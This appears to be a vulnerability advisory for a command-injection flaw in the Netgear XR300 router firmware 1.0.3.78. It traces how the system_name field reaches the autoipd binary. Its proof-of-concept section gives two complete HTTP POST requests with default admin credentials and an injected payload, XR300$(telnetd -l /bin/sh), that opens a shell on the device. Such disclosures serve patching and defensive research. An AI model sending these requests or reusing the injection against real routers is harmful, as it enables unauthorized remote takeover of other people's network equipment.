





# Netgear Vulnerability

Vendor:Netgear

Product:XR300

Version:1.0.3.78

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in Netgear router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

> This vulnerability requires sending multiple packets to trigger
>
> Vulnerability-triggered binaries：`autoipd`
>
> tainted entry：`wiz_dyn.cgi、genie_dyn.cgi` ------>`system_name`

In `httpd` binary:

In the router's `wiz_dyn.cgi、genie_dyn.cgi ` function, `system_name` is directly passed by the attacker, so we can control the `system_name` to attack the OS.

<div  align="center"></div>

<div  align="center"></div>

In `acos_service` binary:

<div  align="center"></div>

When the following conditions are met, the `autoipd` file will be executed：

* enable_ap_mode = 1
* ap_dyn_ip = 1

In `autoipd` binary:

The initial input will be extracted and cause command injection.

<div  align="center"></div>

BUT!!!

How do we meet the above conditions?Just adjust the router's mode to wireless access point!

In `httpd` binary:

In the router's `ap_mode.cgi ` function, We can set the value of `enable_ap_mode` and `ap_dyn_ip`.


## PoC

We set `system_name` as **XR300%24%28telnetd+-l+%2Fbin%2Fsh%29** , The meaning of this command is **XR300$(telnetd -l /bin/sh)**，and the router will excute it,such as:

```http
POST /wiz_dyn.cgi?id=93800a415d3f1baf148d6d482d83b0f446cecf05bcce7622af95b68ea1c13eb5 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/WIZ_dyn.htm
Cookie: XSRF_TOKEN=3322880113
Upgrade-Insecure-Requests: 1

apply=%E5%BA%94%E7%94%A8&system_name=XR300%24%28telnetd+-l+%2Fbin%2Fsh%29&domain_name=pjqwudi&runtest=no
```

Adjust the router's mode to wireless access point, and the router will excute it,such as:

```http
POST /ap_mode.cgi?id=082c504f785853fd60086d50bbb86edd638f492c0094b5232b3259946b5b1f40 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 439
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/WLG_ap_dual_band.htm
Cookie: XSRF_TOKEN=3322880113
Upgrade-Insecure-Requests: 1

apply=%E5%BA%94%E7%94%A8&enable_ap_mode=enable_ap_mode&enable_fixed_ip_setting=enable_dynamic_ip_setting&WPethr1=0&WPethr2=0&WPethr3=0&WPethr4=0&WMask1=0&WMask2=0&WMask3=0&WMask4=0&WGateway1=0&WGateway2=0&WGateway3=0&WGateway4=0&DAddr1=0&DAddr2=0&DAddr3=0&DAddr4=0&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&apmode_ipaddr=0.0.0.0&apmode_netmask=0.0.0.0&apmode_gateway=0.0.0.0&apmode_dns_sel=&apmode_dns1_pri=0.0.0.0&apmode_dns1_sec=&apmode_page=1
```


## Result

> After setting the router as a wireless access point, the ip will change, 192.168.1.1->192.168.31.52

Get a shell!

<div  align="center"></div>
